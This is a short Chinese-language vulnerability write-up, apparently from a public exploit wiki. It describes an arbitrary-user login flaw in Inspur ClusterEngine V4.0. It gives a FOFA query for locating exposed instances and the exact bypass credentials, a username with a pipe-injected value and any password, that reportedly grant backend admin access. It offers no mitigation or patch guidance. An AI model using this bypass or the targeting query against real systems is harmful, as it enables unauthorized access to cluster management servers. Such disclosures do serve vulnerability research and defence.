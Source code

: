 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/lc-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](http://wikioss.peiqi.tech/vuln/ic-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)